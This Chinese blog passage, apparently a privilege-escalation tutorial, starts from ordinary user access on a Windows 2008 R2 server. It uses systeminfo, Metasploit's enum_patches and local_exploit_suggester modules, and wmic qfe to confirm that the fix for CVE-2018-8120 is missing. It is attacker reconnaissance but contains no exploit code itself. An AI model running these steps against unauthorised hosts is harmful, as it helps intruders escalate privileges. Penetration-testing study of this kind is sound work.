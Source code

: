 假设我们现在已经获得了一个Windows 2008 R2服务器的普通 xie [用户权限](https://so.csdn.net/so/search?q=%E7%94%A8%E6%88%B7%E6%9D%83%E9%99%90&spm=1001.2101.3001.7020)，现在我们要利用CVE-2018-8120 提权至最高权限。



![](https://img-blog.csdnimg.cn/20191110104404857.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### **查看系统补丁**



**方法一：**输入shell进入到该主机的shell下，然后：systeminfo 查看系统详细信息，就可以看到补丁了



![](https://img-blog.csdnimg.cn/20191110104822601.png)



**方法二：**进入到 meterpreter 的shell下，执行 run  post/windows/gather/enum\_patches 可以直接查看哪些补丁没有打，但是由于这个模块还比较老，没有显示CVE-2018-8120的补丁号



![](https://img-blog.csdnimg.cn/20191202134851489.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



MSF下还提供了 post/multi/recon/local\_exploit\_suggester 模块，该模块用于快速识别系统中可能被利用的漏洞



```
use post/multi/recon/local_exploit_suggester       
set lhost x.x.x.x      
set session 1      
exploit
```




![](https://img-blog.csdnimg.cn/20200212163309914.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**方法三：**使用以下这条WMIC命令也可以查看补丁数量



```
wmic qfe get Caption,Description,HotFixID,InstalledOn      
#也可以直接找是否存在cve-2018-8120对应的KB4131188补丁      
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB4131188"
```




![](https://img-blog.csdnimg.cn/20200212163002916.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



可以看到，目标主机只打了2个补丁，并没有 cve-2018-8120 对应的**KB4131188**补丁，所以我们可以利用 cve-2018-8120 进行提权。
